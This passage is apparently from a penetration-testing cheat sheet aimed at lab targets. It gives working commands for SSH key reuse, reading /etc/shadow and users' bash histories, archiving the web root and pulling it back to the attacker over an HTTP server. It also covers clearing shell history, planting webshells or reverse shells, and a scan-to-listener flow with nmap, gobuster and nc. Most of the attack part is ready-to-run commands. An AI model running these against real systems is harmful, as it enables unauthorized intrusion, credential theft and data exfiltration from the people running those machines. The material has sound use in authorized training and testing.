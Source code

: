 - Credentials reuse/SSH keys
```
# If you find id_rsa:
chmod 600 id_rsa
ssh -i id_rsa user@$TARGET
```

14) Post-exploitation: loot and evidence
```
# Sensitive files
cat /etc/shadow 2>/dev/null
cat /etc/passwd
tar czf /tmp/webroot.tgz /var/www/html 2>/dev/null

# User creds and histories
for u in /home/*; do [ -f "$u/.bash_history" ] && tail -n 100 "$u/.bash_history"; done

# Copy loot back
cd /tmp && python3 -m http.server 8081
# From your box:
wget http://$TARGET:8081/webroot.tgz -O loot/webroot.tgz
```

15) Cleanup (if allowed)
```
# Remove droppers, shells, temp tools
rm -f /tmp/linpeas.sh /tmp/p /tmp/ls /tmp/webroot.tgz
history -c  # Only in your own shell; do not tamper with system logs unless policy permits
```

## Practical tips
- Always save outputs (-oA) and keep a timeline; it helps during reporting and retests.
- Don’t brute-force by default. Try logic and leaks first (config files, backups, comments, default creds).
- Map web attack surface early: tech stack, input points, file uploads, backup/old files (.bak, .old, ~).
- When scanning, use -Pn and -n in noisy labs to skip unreliable DNS and host discovery delays.
- Use GTFOBins for any SUID/sudo entries you find; it’s the fastest path to root in many labs.
- Upgrade shells to TTY early; it prevents tool/input issues and lets sudo prompt work.
- If the web root is writable via FTP/SMB, drop a webshell or timed reverse shell cautiously.
- Capture and reuse credentials across services (SSH/DB/Web). Reuse is common in labs.
- LinPEAS is a great shotgun; still validate findings manually for understanding and exam robustness.

## Minimal cheat sheet (one-screen flow)
```
export TARGET=10.10.10.10; export LHOST=$(ip route get 1.1.1.1|awk '{print $7;exit}'); export LPORT=4444
mkdir -p scans

nmap -p- -sS -Pn -n --min-rate 3000 -oA scans/alltcp $TARGET
ports=$(awk '/open/&&/tcp/{print $1}' scans/alltcp.nmap|cut -d/ -f1|paste -sd, -)
nmap -sC -sV -p $ports -oA scans/targeted $TARGET

whatweb http://$TARGET/
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50 -o scans/gobuster80.txt

# FTP/SMB quick checks
nmap -p21 --script ftp-anon,ftp-syst -oA scans/ftp $TARGET
smbclient -L "//$TARGET/" -N

# Listener
rlwrap -cAr nc -lvnp $LPORT

```